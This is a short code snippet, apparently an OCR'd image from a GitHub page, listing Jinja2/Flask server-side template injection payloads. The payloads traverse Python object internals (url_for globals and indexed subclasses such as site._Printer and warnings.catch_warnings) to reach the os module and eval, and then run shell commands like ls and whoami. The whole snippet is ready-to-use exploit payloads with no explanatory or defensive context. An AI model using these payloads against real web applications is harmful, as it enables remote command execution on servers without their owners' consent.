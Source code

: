 ```python

{{ url_for.__globals__.__builtins__.eval('__import__("os").popen("ls").read()') }}

# [68], [73]: <class 'site._Printer'>, <class 'site.Quitter'>
{{ ().__class__.__bases__[0].__subclasses__()[68].__init__.__globals__['os'].system('whoami') }}
{{ ().__class__.__base__.__subclasses__()[73].__init__.__globals__['os'].system('whoami') }}
{{ ().__class__.__mro__[1].__subclasses__()[68].__init__.__globals__['os'].system('whoami') }}
{{ ().__class__.__mro__[1].__subclasses__()[73].__init__.__globals__['os'].system('whoami') }}

# [140]: <class 'warnings.catch_warnings'>
{{ ().__class__.__base__.__subclasses__()[140].__init__.__globals__['__builtins__']['eval']("__import__('os').system('ls')") }}
```